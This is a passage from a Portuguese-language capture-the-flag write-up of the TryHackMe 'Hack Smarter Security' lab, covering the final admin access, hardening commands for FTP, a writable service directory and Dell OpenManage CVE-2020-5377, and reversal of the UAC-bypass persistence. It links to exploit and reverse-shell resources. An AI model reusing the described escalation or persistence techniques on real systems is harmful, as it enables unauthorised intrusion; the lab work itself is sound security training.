

Logamos novamente no SSH e agora podemos validar que realmente somos administradores do sistema.


E podemos pegar a flag com calma...


# Hack Smarter PWNED!

---
# 5. Remediação de vulnerabilidades.

##  5.1. Desabilitar FTP anônimo / FTP inteiro
```
# Parar serviço FTP  
Stop-Service ftpsvc -ErrorAction SilentlyContinue  
  
# Desabilitar na inicialização  
Set-Service ftpsvc -StartupType Disabled
```
---
## 5.2. Corrigir permissões do diretório vulnerável (Spoofer)
```
# Remover herança  
icacls "C:\Program Files (x86)\Spoofer" /inheritance:r  
  
# Garantir acesso apenas a Admin e SYSTEM  
icacls "C:\Program Files (x86)\Spoofer" /grant:r "Administrators:(OI)(CI)(F)"  
icacls "C:\Program Files (x86)\Spoofer" /grant:r "SYSTEM:(OI)(CI)(F)"  

# Remover usuários comuns  
icacls "C:\Program Files (x86)\Spoofer" /remove "Users"  
icacls "C:\Program Files (x86)\Spoofer" /remove "Everyone"
```
---

## 5.3. Proteger o binário do serviço
```
icacls "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe" /inheritance:r  
icacls "C:\Program Files (x86)\Spoofer\spoofer-scheduler.exe" /grant:r "Administrators:(F)" "SYSTEM:(F)"
```
---

## 5.4. Dell OpenManage — CVE-2020-5377 (não executado em PoC)

> Esta etapa não foi executada por se tratar de máquina virtual propositalmente vulnerável. Em um ambiente real, as ações seriam:
> - Atualizar o Dell OpenManage para uma versão corrigida (≥ 9.5), conforme boletim oficial Dell DSA-2020-172
> - Caso a aplicação não seja necessária, desinstalá-la completamente
> - Enquanto o patch não for aplicado, bloquear o acesso externo à porta 1311 via firewall como mitigação temporária (já aplicado no item de conclusão)

---
## 5.5. Remover persistência criada durante o pentest
```
# Remover privilégios administrativos  
net localgroup Administrators tyler /delete  
  
# Remover acesso remoto  
net localgroup "Remote Management Users" tyler /delete  
  
# Reverter bypass UAC  
reg delete "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" `  
/v LocalAccountTokenFilterPolicy /f
```



---
## Relatório de correção das vulnerabilidades encontradas.

Após a obtenção de acesso administrativo, foram aplicadas medidas de hardening com foco direto nas falhas exploradas durante o ataque.

Inicialmente, o serviço FTP foi desabilitado, uma vez que permitia acesso anônimo e exposição de arquivos sensíveis. A desativação elimina o vetor inicial de enumeração e vazamento de informações.

Em seguida, foi tratada a vulnerabilidade de elevação de privilégios associada ao serviço _Spoofer-Scheduler_. O diretório da aplicação possuía permissões excessivas, permitindo que usuários não privilegiados modificassem o binário executado pelo serviço. As permissões foram corrigidas, restringindo o acesso exclusivamente às contas **Administrators** e **SYSTEM**, prevenindo substituição de executáveis e execução arbitrária com privilégios elevados.

Também foi aplicada mitigação imediata na interface do **Dell OpenManage Server Administrator**, vulnerável à **CVE-2020-5377 (Path Traversal)**. O acesso à porta 1311 foi bloqueado via firewall, impedindo exploração remota até que a aplicação possa ser atualizada ou removida.

Por fim, todas as alterações de persistência introduzidas durante a exploração foram revertidas, incluindo remoção de privilégios administrativos indevidos e restauração de configurações de segurança do sistema.

Essas ações eliminam os vetores utilizados no comprometimento inicial e reduzem significativamente a superfície de ataque do sistema.

---

## 6. Referências

| Recurso | Link |
|---|---|
| CVE-2020-5377 — NVD | https://nvd.nist.gov/vuln/detail/CVE-2020-5377 |
| Dell DSA-2020-172 (patch oficial) | https://www.dell.com/support/article/en-us/sln322304 |
| PoC CVE-2020-5377 — Rhino Security Labs | https://rhinosecuritylabs.com |
| Exploit-DB — Dell OMSA | https://www.exploit-db.com/exploits/39909 |
| PrivescCheck — itm4n | https://github.com/itm4n/PrivescCheck |
| Nim Reverse Shell — Sn1r | https://github.com/Sn1r/Nim-Reverse-Shell |
| TryHackMe — Hack Smarter Security | https://tryhackme.com |
